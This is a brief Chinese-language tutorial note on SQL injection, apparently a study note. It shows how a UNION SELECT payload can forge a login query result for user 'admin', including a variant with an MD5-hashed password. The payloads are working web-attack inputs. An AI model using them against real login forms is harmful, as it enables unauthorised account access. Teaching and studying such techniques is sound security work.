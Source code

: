 有时通过注入可以伪造查询结果，达到非法登录的效果
```sql
name=1' union select 1, 'admin', '1'#&pw=1
```
如上，我们伪造了一个名为`admin`，密码为`1`的查询结果，然后传递`url`查询`pw=1`，于是服务器认为我们拥有`admin`正确的密码，成功登录

需要注意的是，由于服务端可能将密码经过`md5`计算后存储，因此我们伪造的查询结果也应当经过`md5`
```sql
name=1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1
```

#Web #SQL注入 #查询结果伪造